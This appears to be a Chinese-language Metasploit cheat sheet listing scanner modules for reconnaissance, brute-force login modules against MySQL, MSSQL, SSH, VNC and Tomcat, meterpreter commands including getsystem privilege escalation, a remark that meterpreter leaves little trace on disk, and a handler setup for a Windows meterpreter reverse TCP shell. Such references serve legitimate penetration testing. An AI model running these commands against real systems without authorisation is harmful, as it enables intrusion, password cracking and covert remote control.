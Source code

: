 
## 常用模块

**信息收集**

利用 auxiliary 这个模块来获取目标网端的信息,包括端口开放情况、主机存活情况.
```bash
use auxiliary/scanner/discovery/arp_sweep       # arp 扫描
use auxiliary/scancer/smb/smb_version           # 存活的 445 主机
use auxiliary/scanner/portscan/syn              # 端口扫描
use auxiliary/scanner/portscan/tcp              # TCP 端口扫描
use auxiliary/scanner/telnet/telnet_version     # telent 服务扫描
use auxiliary/scanner/rdp/rdp_scanner           # 远程桌面服务扫描
use auxiliary/scanner/ssh/ssh_version           # ssh 主机扫描
use auxiliary/scanner/smb/smb_version           # smb 服务扫描
use auxiliary/scanner/ip/ipidseq                # IPID 序列扫描器
use auxiliary/scanner/mssql/mssql_ping          # mssql
use auxiliary/scanner/http/webdav_scanner       # webdav
```

**爆破**
```bash
use auxiliary/scanner/mysql/mysql_login         # 爆破 mysql
use auxiliary/scanner/mssql/mssql_login         # 爆破 mssql
use auxiliary/scanner/ssh/ssh_login             # 爆破 SSH
use auxiliary/scanner/snmp/snmp_enum            # 枚举 snmp
use auxiliary/scanner/vnc/vnc_login             # 爆破 VNC
use auxiliary/scanner/http/tomcat_mgr_login     # 爆破 tomcat
```

---

## meterpreter

meterpreter 除了持久化控制,其他的操作都在内存里面，不会写进物理磁盘。重启下各种痕迹就消失了。

### 快速上手

```bash
shell       # 获取目标主机的 cmd shell
getsystem   # 命令可以提权到本地系统权限
sysinfo     # 显示系统名,操作系统,架构和语言等.
```

---

### 获取会话

**handler**
```bash
use exploit/multi/handler
set payload windows/x64/meterpreter_reverse_tcp
set lhost <lhost>
set lport <lport>
exploit -j  # 后台执行
```
